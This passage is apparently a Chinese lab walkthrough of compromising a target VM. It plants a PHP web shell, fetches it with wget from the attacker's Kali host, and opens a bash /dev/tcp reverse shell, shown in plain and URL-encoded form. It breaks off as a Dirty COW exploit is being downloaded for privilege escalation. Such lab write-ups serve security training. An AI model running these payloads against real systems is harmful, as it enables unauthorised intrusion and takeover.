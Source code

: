 开启 kali 的 apache 服务, 在 kali 网站目录下写个 shell.txt 的文件, 内容如下：

```
<?php @system($_POST[x]);?>
```

通过执行 wget 命令将该文件下载到靶机中, 发现不能直接下载到网站根目录

通过 x=system('ls -lah ../');  查看网站根目录权限, 发现没有写入权限

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTKCGcLKpngpdDhTibrkzlUuYQ6DUibvyvStNQZUalaAyGRzLn2RNhAacow/640?wx_fmt=png)

通过 x=system('ls -lah'); 查看当前目录下的子目录, 发现多个目录权限都比较高, 比如 img 目录

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTK4jNQVjV9oyKvibj7YqkmTAfNLiac1ibDg7LIq9VWe58PjeQgkx1IXGAtQ/640?wx_fmt=png)

通过 wget 命令将 kali 的 shell.txt 文件下载到 img 目录下

```
x=system('wget http://192.168.0.111/shell.txt -O ./img/shell.php');
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTKOxxaWqqic8T9MC3tX8rEiby7pOYvgyXxb78yqN7g5QLZ1XlzBib1bbWMw/640?wx_fmt=png)

访问 shell.php, 发现写入成功, 且可以执行命令

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTKibC0LAfg9TCXFsp91j8n9xTsSp7NfSyjibtS3oLTibSb4boSTszvpwjicQ/640?wx_fmt=png)

kali 监听端口

```
nc -lvvp 9999
```

执行以下命令反弹 shell

```
echo "bash -i >& /dev/tcp/192.168.0.111/7777 0>&1"|bash
```

先进行 url 编码, 再执行

```
%65%63%68%6f%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%30%2e%31%31%31%2f%37%37%37%37%20%30%3e%26%31%22%7c%62%61%73%68
```

成功反弹 shell

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTKZ61ULYCaufdgpT71KHWibC3iaRE5JCc07u5wGz2Z6zxRQ92HRgGBc4icg/640?wx_fmt=png)

 3、提权

![](https://mmbiz.qpic.cn/sz_mmbiz_png/LFO9ZDGBVzx8o8TaWYPTDChFEpgt5Mo01VLHrmyFP4ERZ25kGuA4iaYz8fMjAoOeUQUu0biakaBS02otCr8rmycg/640?wx_fmt=png)

收集信息得到的 Linux 版本为 2.6.32-3.5, 尝试脏牛提权, 下载 dirty.c 文件放到 kali 网站根目录, 通过 wget 命令下载到靶机

```
wget http://192.168.0.111/dirty.c
```
